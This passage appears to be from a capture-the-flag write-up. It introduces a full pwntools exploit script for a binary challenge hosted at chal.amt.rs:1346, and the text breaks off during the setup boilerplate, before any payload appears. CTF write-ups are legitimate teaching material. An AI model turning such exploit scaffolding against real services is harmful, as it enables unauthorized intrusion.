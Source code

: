 <figure><img src="../../.gitbook/assets/image (186).png" alt="" width="563"><figcaption></figcaption></figure>

Below is the full exploit script:

{% code title="exploit.py" %}
```python
#!/usr/bin/env python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './chal'
elf = context.binary = ELF(exe, checksec=True)
libc = './lib/libc.so.6'
libc = ELF(libc, checksec=False)
context.log_level = 'debug'
context.terminal = ["tmux", "splitw", "-h"]
host, port = 'chal.amt.rs', 1346

def initialize(argv=[]):
```